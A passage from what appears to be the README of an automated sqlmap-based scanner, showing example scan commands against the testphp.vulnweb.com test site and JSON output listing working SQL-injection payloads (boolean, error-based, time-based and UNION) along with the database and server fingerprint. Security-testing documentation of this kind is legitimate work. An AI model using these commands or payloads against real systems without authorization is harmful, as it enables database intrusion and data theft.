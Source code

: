 ### Testing with increased timeout

```bash
python run.py --adaptive
# Enter target URL: http://example.com/page.php?id=1
# Enter timeout in seconds: 300
```

### Example output
```plaintext
success: True
partial: True
message: Found databases but unable to enumerate tables. The database might be empty or protected.
databases_found: ['acuart', 'information_schema']

Scan History:

Step: initial_assessment
Command: sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=12 --batch --dbs --threads=5

Step: dbms_specific_scan
Command: sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=12 --batch --dbms=mysql --tables --threads=5

Step: high_risk_testing
Command: sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=12 --batch --risk=3 --level=5

Step: high_risk_tables
Command: sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=12 --batch --tables --risk=3 --level=5
```

```json
{
  "timestamp": 1743273810,
  "scan_info": {
    "vulnerable_parameters": [
      "cat"
    ],
    "techniques": [
      "MySQL"
    ],
    "databases": [],
    "tables": [],
    "columns": {},
    "dbms": "MySQL >= 8.0.0",
    "os": "Linux Ubuntu",
    "waf_detected": false,
    "web_app": [
      "PHP 5.6.40",
      "Nginx 1.19.0"
    ],
    "payloads": [
      "cat=(SELECT (CASE WHEN (3918=3918) THEN 12 ELSE (SELECT 6516 UNION SELECT 1824) END))",
      "cat=12 AND GTID_SUBSET(CONCAT(0x7176717071,(SELECT (ELT(3742=3742,1))),0x7162706b71),3742)",
      "cat=12 AND (SELECT 2321 FROM (SELECT(SLEEP(5)))cKgu)",
      "cat=12 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7176717071,0x4a61754b68596e4c74794e6b52544d4b506967536c4c534b6173646b6954724d676269494f697842,0x7162706b71),NULL-- -"
    ],
```